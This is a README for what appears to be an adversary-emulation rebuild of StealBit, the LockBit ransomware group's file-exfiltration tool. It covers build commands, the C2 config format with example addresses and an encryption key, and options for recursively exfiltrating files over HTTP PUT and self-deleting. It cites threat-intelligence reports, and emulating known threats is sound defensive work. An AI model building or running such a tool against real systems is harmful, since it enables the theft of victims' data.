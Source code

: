 ﻿# StealBit

StealBit is an exfiltration tool used to exfiltrate both files and directories over a custom C2 channel.

## Features

StealBit utilizes native APIs and threading to optimize execution and exfiltration of files. It performs the following behaviors:

- Checks if being debugged and infinitely loops
- Recursively enumerates folders and files, avoiding [deny-list items](src/enumerate.cpp#L127-L242)
- Checks C2 server connectivity using an HTTP GET request
- Exfiltrates files using HTTP PUT requests
- Deletes itself on completion

## Build

StealBit can be built in Debug or Release mode using the included
`CMakePreset.json` configurations.

### Dependencies

- `CMake` version `3.26`
- `CMakePresets.json` version `6` support (Ninja Multi-Config)

### Quickstart

#### Command Line

Build both Debug and Release configurations of StealBit. This will also kick off the GoogleTest unit tests.

```PowerShell
cd Resources\Stealbit
cmake.exe --workflow --preset cicd-debug
cmake.exe --workflow --preset cicd-release
```

For simplicity, all of the generated artifacts can be bundled into the
top-level `install/` directory using the CMake installation facility.

```PowerShell
cmake.exe --install ./build --config release
cmake.exe --install ./build --config debug
```

You can then run StealBit from the command line:

```PowerShell
.\install\Debug\stealbit.exe

.\install\Release\stealbit.exe
```

#### Config File

Stealbit looks for a config file in the same directory as the binary. The final encrypted config file name should be `sb.enc`.

The contents should be: a malware identifier, and any number of C2 servers in the format `IPADDRESS:PORT`. Use `;` to delimit different configuration lines.
The config can handle unlimited C2 servers.

Example config file (decrypted):

```cpp
ID123;127.0.0.1:4444;10.1.10.1:56565
```

The config file `config\sb_NOT_ENCRYPTED.conf` will be automatically encrypted when Stealbit is built, and an updated `config\sb.conf` will be generated.

To manually encrypt the config, file use the accompanying application `stealbit-encrypt-config.exe [PATH TO CONFIG]`. The application will output an encrypted config file
that is encrypted with the key `0D00000D00000D00000D0000` (baby shark). The encrypted file name will be appended with `.enc`

#### Usage & Arguments

Stealbit has several command line arguments available to adjust the functionality of it.

- The first argument is standalone, and positional. This is the starting file, or directory. (defaults to `C:`; argument required to provide other arguments)
- `-f | -file (integer value)` - changes the maximum file size to exfiltrate. (Default file size max is 2MB)
- `-d | -delete` - toggles on/off self-delete. (Self-delete disabled by default)
- `-allowallext` - tells Stealbit to ignore the extension blacklist. (Default is to use the blacklist)
- `-allowalldir` - tells Stealbit to ignore the directory blacklist. (Default is to use the blacklist)

Example 1 (start in Users/Public; enabled self delete; max file size is 3MB):

```cmd
stealbit.exe C:\Users\Public -d -f 30000 
```

Example 2 (start in C:; ignore directory blacklist; use default max file size):

```cmd
stealbit.exe C: -allowalldir
```

Example 3 (start in C:; ignore directory blacklist; use default max file size):

```cmd
stealbit.exe
```

### Cleanup

To remove Stealbit you need to remove the binary and the config file. You can do this using `Remove-Item`.

```PowerShell
Remove-Item -Path C:\Users\[USERNAME]\AppData\Local\Temp\connhost.exe
Remove-Item -Path C:\Users\[USERNAME]\AppData\Local\Temp\SB.conf
```

## Install

Installing StealBit simply copies all of the artifacts from both Release
and Debug builds into the top-level `install/` directory. This is simply for
ease of use and distributability.

The final product should be a top-level directory named `install/` with the
following layout:

```PowerShell

sdbot/
├─ install/
   ├─ Debug/
   │  ├─ main.exe
   │  ├─ main.pdb
   ├─ Release/
      ├─ main.exe
```

## Test 🧪

### Unit Tests

GoogleTest unit tests will automatically run when using the `cicd-debug` and `cicd-release` presets

You can also run them ad-hoc by running:

```PowerShell
ctest.exe --preset all
```

## Troubleshoot

### Logs

For operator usability, StealBit will log XOR-encrypted and base64-encoded logs to `stb.log`
in the current working directory. The current XOR key is `000102030405060708090a0b0c0d0e0f000102030405060708090a0b0c0d0e0f`

You can decrypt these logs using the [log_decryptor](../log_decryptor/):

```bash
python3 aes_base64_log_decryptor.py --xor -i stb.log  -o decrypted.log -k `000102030405060708090a0b0c0d0e0f`
```

### Exfiltration Testing

A python script was created that can be used to test exfiltration. The script will help to determine if headers, file data, and other
request information algins with expectation.

You can access this script here: [Python PUT Server](scripts/htp_server.py):

```bash
python3 http_server.py -b 127.0.0.1 8001
```

## CTI

1. [Archive.org](https://web.archive.org/web/20220924195948/https://acn-marketing-blog.accenture.com/wp-content/uploads/2022/05/CIFR-Exfil-Tool-Comparison-Final.pdf)
1. [Cyber Reason](https://www.cybereason.com/blog/research/threat-analysis-report-inside-the-lockbit-arsenal-the-stealbit-exfiltration-tool)
1. [Yoroi](https://yoroi.company/en/research/hunting-the-lockbit-gangs-exfiltration-infrastructures/)
1. [cyware](https://cyware.com/news/analyzing-lockbits-data-exfiltration-model-f5950c8a)

